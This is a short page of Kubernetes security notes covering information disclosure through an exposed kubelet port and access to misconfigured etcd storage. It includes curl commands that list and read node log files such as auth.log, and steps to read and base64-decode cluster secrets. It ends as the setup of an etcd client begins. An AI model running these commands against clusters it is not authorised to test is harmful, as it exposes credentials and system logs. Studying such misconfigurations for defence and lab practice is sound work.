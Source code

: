### Info Disclosure example

List of log files:
```bash
curl -k https://<worker ip>:10250/logs/
```

Read files:
```bash
curl -k https://<worker ip>:10250/logs/auth.log
```


## ETCD Storage

> its possible to exploit if the etcd storage is misconfigured/exposed to the network

- Etcd is a key-value store used by Kubernetes
- Kubernetes control plane is stored into etcd storage
- Secrets created using kubectl are stored in etcd in clear text


> Lets create a secret

First create a file os MASTER:
```bash
echo -n ‘user@123’ > ./secret.txt
```

Create the secret:
```bash
kubectl create secret generic user-password --from-file=./secret.txt
```

> The secret is done from a file to avoid exposure the secrets in command history


List secrets:
```bash
kubectl get secret
kubectl get secret <secret name>
kubectl get secret <secret name> -o json 
# the info will be in base64
```

You can decode like that:
```bash
echo ‘<info in base64>’ |  base64 -d
```


We need a client to interact with **etcd server**

[Releases · etcd-io/etcd · GitHub](Releases · etcd-io/etcd · GitHub)


- Download and extract the file

```bash
wget <link>
tar -zxcf <file.tar.gz>
```
